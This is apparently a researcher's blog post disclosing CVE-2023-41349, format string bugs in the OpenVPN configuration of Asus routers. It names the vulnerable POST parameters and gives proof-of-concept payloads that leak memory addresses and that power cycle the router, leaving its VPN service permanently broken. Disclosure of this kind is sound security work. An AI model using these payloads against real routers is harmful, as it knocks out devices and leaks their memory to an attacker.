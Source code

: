 ```yaml
---
title: "Info Leak / DoS Conditions in Asus Advanced OpenVPN"
date: 2024-02-24T16:03:30Z
draft: true
tags: ["notes research cve"]
---
```


## Asus, back at it again with the format strings - CVE-2023-41349

Last year I came across some weird format string issues in Asus's "Advanced OpenVPN Configuration" functionality. I sent the bugs to Asus for a fix 2023/05/15, around the same time I submitted a few other [exploitable DoS conditions](../asus-DoS/index.md). I never heard back about the CVE assignment and remembered today, nearing a year later. 

Anyway, here are the details-- these ones are pretty funny because they not only DoS'd the VPN service, they straight up power cycled the device and borked the VPN service LOL. Fixing it after the DoS required clearing the values from nvram, otherwise the VPN service was permanently down and unable to start, ha!

### Information Leakage / DoS via Dangerous Format String Usage

This might've actually been exploitable, but due to the power cycle of the device it was brutally difficult to track down, so I got lazy. Here are the details of the disclosures. It appeared possible to write memory to arbitrary locations withe the `%n` parameter, but the effort required for an authenticated exploit that resulted in a full reboot everytime it failed was too much for me to care.

#### Description:
Dangerous format string usage was identified within POST requests made to `/start_apply.htm` for configuration of the OpenVPN server. It is possible to include format specifiers within the `vpn_server_custom`, `vpn_server_cipher`, and `vpn_server_digest` POST parameters, which will be parsed and written to the `/etc/openvpn/server1/config.ovpn` and `client.ovpn` files. 

Using this vulnerability it is possible to leak memory addresses, write to memory by leveraging the `%n` format specifier and/or crash the device, causing a reboot and a permanent DoS for the VPN service / crash `rc`, which will be unable to recover. Inclusion of format specifiers such as `%s`, `%d`, `%n` in the custom configuration will result in a power cycle / crash and require a manual reset of VPN server nvram in order to restart the service, as the `vpn_server<ID>_custom` nvram values will contain the malicious string:

```
admin@RT-AX88U-C100:/tmp/home/root# nvram dump | grep vpn_
...
vpn_server_ccd_val=<1>%p>10.10.10.10>255.255.255.255>0
vpn_server_custom=push "AAAA%p%p%p%p"
vpn_server1_ccd_val=<1>%p>10.10.10.10>255.255.255.255>0
vpn_server1_custom=push "AAAA%s%p%p%p"
```

#### PoC 1 - Memory / Info Leak:

Inclusion of the following values as the custom configuration will result in leakage of memory addresses within the config.ovpn file:

`push "AAAA%p%p%p%p"`

#### Request:
![alt text](images/req-1.PNG)

#### Result:
```
admin@RT-AX88U-C100:/tmp/home/root# cat /etc/openvpn/server1/config.ovpn
# Automatically generated configuration
...
# Custom Configuration
push "AAAA0xc3f8d5000xffe127200xffe127240xffe12728"
```

#### PoC 2 - Power Cycle / VPN DoS
The following payload, sent within the vulnerable parameters, will power cycle the device and crash the vpn service until the value is removed from nvram:

`"AAAA%s%p%p%p"`

`nvram` contents:
```
admin@RT-AX88U-C100:/tmp/home/root# nvram dump | grep vpn | grep %s
size: 76294 bytes (54778 left)
vpn_server_custom=push "AAAA%s%p%p%p"
vpn_server1_custom=push "AAAA%s%p%p%p"
```

#### Request:
![alt text](images/crash1.PNG)

#### Result, lol, full reboot:
![alt text](images/crash-cli.PNG)

### Final thoughts

Had I written this near a year ago when I found it, I probably would've included more about tracking it down, and odd behaviors. Alas, this one's short and sweet.